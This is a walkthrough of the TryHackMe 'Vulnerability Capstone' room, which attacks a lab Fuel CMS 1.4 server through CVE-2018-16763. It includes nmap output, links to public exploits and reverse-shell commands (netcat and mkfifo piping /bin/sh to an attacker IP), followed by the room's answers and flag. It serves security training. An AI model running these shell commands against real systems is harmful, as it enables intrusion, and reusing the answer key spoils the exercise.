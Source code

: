 # Try Hack Me - [Vulnerability Capstone](https://tryhackme.com/room/vulnerabilitycapstone)
##### Apply the knowledge gained throughout the Vulnerability Module in this challenge room.

## Task 1 - Introduction 

Summarise the skills learnt in this module by completing this capstone room for the "Vulnerability Research" module.
Ackme Support Incorporated has recently set up a new blog. Their developer team have asked for a security audit to be performed before they create and publish articles to the public.
It is your task to perform a security audit on the blog; looking for and abusing any vulnerabilities that you find.
```
Let's get hacking
> No answer needed
```

## Task 2 - Exploit the Machine (Flag Submission) 

Deploy the vulnerable machine attached to this by pressing the green "Start Machine" button. It is recommended that you use the TryHackMe AttackBox to complete this room.

Allow five minutes to pass before attempting to attack the vulnerable machine MACHINE_IP

```
sudo nmap -v -sS -sC -sV 10.10.254.89

PORT   STATE SERVICE VERSION                                                                                                 
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)                                                
| ssh-hostkey:                                                                                                                      
|   3072 5d:af:e8:dc:1c:b0:38:8f:4e:1d:a7:47:f4:51:27:5a (RSA)
|   256 bb:53:81:a2:9c:2d:24:0e:f3:bc:a9:a1:13:1d:ec:74 (ECDSA)
|_  256 bf:4b:91:59:f1:fa:a5:86:32:6d:ab:4e:06:3e:44:bf (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
| http-robots.txt: 1 disallowed entry 
|_/fuel/
|_http-server-header: Apache/2.4.41 (Ubuntu)
|_http-title: Welcome to FUEL CMS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Fuel CMS 1.4
https://www.exploit-db.com/exploits/49487
https://www.exploit-db.com/exploits/50477
rce1.py
nc -lnvp 4444
# nc -e /bin/bash 10.13.25.242 4444
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.13.25.242 4444 >/tmp/f
cd /home/ubuntu
ls
cat flag.txt
THM{ACKME_BLOG_HACKED}
```

```
Deploy the vulnerable machine attached to this task & wait five minutes before visiting the vulnerable machine.
> No answer needed
```

```
What is the name of the application running on the vulnerable machine?
> Fuel CMS
```

```
What is the version number of this application?
> 1.4
```

```
What is the number of the CVE that allows an attacker to remotely execute code on this application?Format: CVE-XXXX-XXXXX
> CVE-2018-16763
```

```
Use the resources & skills learnt throughout this module to find and use a relevant exploit to exploit this vulnerability.Note: There are numerous exploits out there that can be used for this vulnerability (some more useful than others!)
> No answer needed
```

```
What is the value of the flag located on this vulnerable machine? This is located in /home/ubuntu on the vulnerable machine.
> THM{ACKME_BLOG_HACKED}
```